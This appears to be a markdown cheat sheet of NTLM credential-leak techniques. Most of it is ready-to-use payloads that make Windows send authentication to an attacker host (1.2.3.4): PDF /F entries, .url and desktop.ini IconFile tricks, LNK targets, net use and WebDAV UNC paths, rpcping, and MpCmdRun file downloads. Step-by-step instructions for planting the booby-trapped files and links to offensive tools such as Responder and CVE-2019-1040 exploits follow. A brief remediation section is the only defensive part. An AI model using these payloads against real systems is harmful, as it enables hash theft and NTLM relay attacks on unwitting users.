 # All_NTLM_leak


## PDF file
/F (\\\\\\\\IP@80\\\\t)

## dubdoc
///1.2.3.4@80/t
## Doc
Target=file://1.2.3.4@80/t.dotx
URL
file://IP@80/t.htm
## lnk
URL\=file://1.2.3.4@80/t.htm
## IconFile
\\\\1.2.3.4@80\\t.ico
## rpcping
rpcping -s 1.2.3.4 -e 1234 -a privacy -u NTLM
## dir
dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Net command + WebDAV envoke
* net use \\\\1.2.3.4@80\\t
* net use * \\\\1.2.3.4@SSL@443\\folder\\subfolder password /user:userID
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* net use * http://1.2.3.4/folder/subfolder password /user:root
* net use * \\\\1.2.3.4\\folder\\subfolder password /user:userID
* net use \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe \. (the DavWWWRoot triggers WebDAV forcibly )
* net use \\\\domain.site@80\\uri_folder\\index.html
* net use * https://1.2.3.4:443/folder/subfolder password /user:userID
* dir \\\\1.2.3.4@SSL@443\\DavWWWRoot\\test.exe

## Create .url file to leak using “ICO” request to file share
Create a new TXT file and paste the following:<br/>
[InternetShortcut]  <br/>
URL=http://www.WeLoveResponder.com <br/>
IconIndex=0  <br/>
IconFile\=\\\\1.2.3.4\\L3\\3T.ico
Rename the file from .txt to .url

## Create desktop.ini file to leak credentials using a folder
mkdir Folder <br/>
attrib +s Folder <br/>
cd Folder <br/>
echo [.ShellClassInfo] > desktop.ini <br/>
echo IconResource\=\\\\1.2.3.4\\aa >> desktop.ini <br/>
attrib +s +h desktop.ini

## Windows Defender MpCmdRun
"C:\ProgramData\Microsoft\Windows Defender\platform\4.18.2008.9-0\MpCmdRun.exe" -Scan  -ScanType 3 -File \\\\Server.domain\\file.txt
"c:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2008.9-0\MpCmdRun.exe" -DownloadFile -url https://the.earth.li/~sgtatham/putty/latest/w64/putty.exe -path \\\\Server.domain\\

## Proxy bypass adress is Intranet for NTLM auto auth
https://github.com/Gl3bGl4z/steal_NTLM_ncat

## Dir, IE/EDGE, Office, URL, LNK, HREF, Media Player, Java web start, ClickOnce
https://www.securify.nl/blog/SFY20180501/living-off-the-land_-stealing-netntlm-hashes.html

## Leak credentials using HTML
https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML

## Remediation
Enforce SMB Signing – To prevent attackers from launching simpler NTLM relay attacks, turn on SMB Signing on all machines in the network.<br>
Block NTLMv1 – Since NTLMv1 is considered significantly less secure; it is recommended to completely block it by setting the appropriate GPO.<br>
Enforce LDAP/S Signing – To prevent NTLM relay in LDAP, enforce LDAP signing and LDAPS channel binding on domain controllers.<br>
Enforce EPA – To prevent NTLM relay on web servers, harden all web servers (OWA, ADFS) to accept only requests with EPA.

## KBs
* https://www.bleepingcomputer.com/news/security/understanding-the-windows-credential-leak-flaw-and-how-to-prevent-it/
* https://dylankatz.com/NTLM-Hashes-Microsoft's-Ancient-Design-Flaw/
* https://www.helpnetsecurity.com/2017/05/15/stealing-windows-credentials-using-google-chrome/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/introducing-responder-10/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-17/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/top-five-ways-spiderlabs-got-domain-admin-on-your-internal-network/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/owning-windows-networks-with-responder-part-2/
* https://www.trustwave.com/en-us/resources/blogs/spiderlabs-blog/responder-20-owning-windows-networks-part-3/
* https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/
* https://twitter.com/mynameisv__/status/1123256857072742400
* https://github.com/LOLBAS-Project/LOLBAS/blob/master/yml/OSBinaries/Rpcping.yml
* https://github.com/cure53/HTTPLeaks
* https://www.helpnetsecurity.com/2019/06/11/microsoft-ntlm-vulnerabilities/
* https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2008-R2-and-2008/dd560653(v=ws.10)
* https://docs.microsoft.com/en-us/windows/security/threat-protection/security-policy-settings/network-security-restrict-ntlm-outgoing-ntlm-traffic-to-remote-servers
* https://blogs.technet.microsoft.com/askds/2009/10/08/ntlm-blocking-and-you-application-analysis-and-auditing-methodologies-in-windows-7/

## tools
* https://github.com/deepzec/Bad-Pdf
* https://github.com/elnerd/Get-NetNTLM
* https://github.com/ShikariSenpai/Leak-NTLM-hash-via-HTML
* https://github.com/cure53/HTTPLeaks
* https://github.com/SpiderLabs/Responder
* https://github.com/Kevin-Robertson/Inveigh
* https://github.com/Ridter/CVE-2019-1040
* https://github.com/lazaars/UltraRealy_with_CVE-2019-1040
